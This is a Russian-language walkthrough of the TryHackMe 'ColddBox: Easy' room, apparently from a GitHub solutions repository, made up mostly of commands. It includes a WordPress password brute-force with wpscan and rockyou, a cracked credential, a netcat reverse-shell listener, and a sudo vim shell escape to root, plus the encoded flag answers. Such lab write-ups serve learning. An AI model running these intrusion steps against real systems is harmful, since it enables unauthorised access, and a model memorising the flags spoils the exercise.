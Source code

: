[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [ColddBox: Easy](https://tryhackme.com/r/room/colddboxeasy) 

Всего 1 заданиe:
## Задание 1
Сможете ли вы получить доступ и получить оба флага ?

Удачи!.

Автор Марти из Hixec.

Сомнения и/или помощь в сообществе Hixec.

Изображение миниатюры предоставлено Freepik с  сайта www.flaticon.es

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -A -O -sC -sV -p- <IP>
wpscan --url http://<IP>/ -e u -P /usr/share/wordlists/rockyou.txt
# c0ldd:9876543210
rlwrap nc -nlvp 4444
python3 -c "import pty;pty.spawn('/bin/bash')"
ls -la
cat user.txt
ls /var/www/html
cat wp-config.php
ssh c0ldd@<IP> -p 4512
cat user.txt 
cat user.txt | base64 -d
```
```commandline
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```
корень.txt
```commandline
sudo -l
sudo /usr/bin/vim
:!/bin/bash

cd /root/
cat root.txt | base64 -d
```
```commandline
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)